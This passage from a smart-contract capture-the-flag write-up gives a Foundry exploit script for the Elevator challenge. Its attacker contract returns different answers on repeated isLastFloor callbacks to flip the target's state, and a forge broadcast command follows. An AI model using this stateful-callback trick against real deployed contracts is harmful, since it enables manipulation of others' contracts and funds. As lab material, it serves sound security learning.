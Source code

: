 
`ElevatorSolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import {Elevator} from "../src/Elevator.sol";

contract ElevatorSolve is Script{
    Elevator public elevator = Elevator(0xa32a12f573871eE4C1B6d2E9B8BA424d4cD01718);
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Top : ", elevator.top());

        new Attack().exploit();

        console.log("Top : ", elevator.top());
        vm.stopBroadcast();
    }
}

contract Attack{
    Elevator public elevator = Elevator(0xa32a12f573871eE4C1B6d2E9B8BA424d4cD01718);
    uint public callCount;
    function exploit() public payable{
        elevator.goTo(10);
    }

    function isLastFloor(uint) external returns (bool){
        callCount += 1;
        if(callCount == 1){
            return false;
        }
        return true;
    }

}
```


To run script : 

```bash
$ source .env
$ forge script script/ElevatorSolve.s.sol:ElevatorSolve --rpc-url $RPC_URL --broadcast
```

# 12 Privacy

`Privacy.sol`
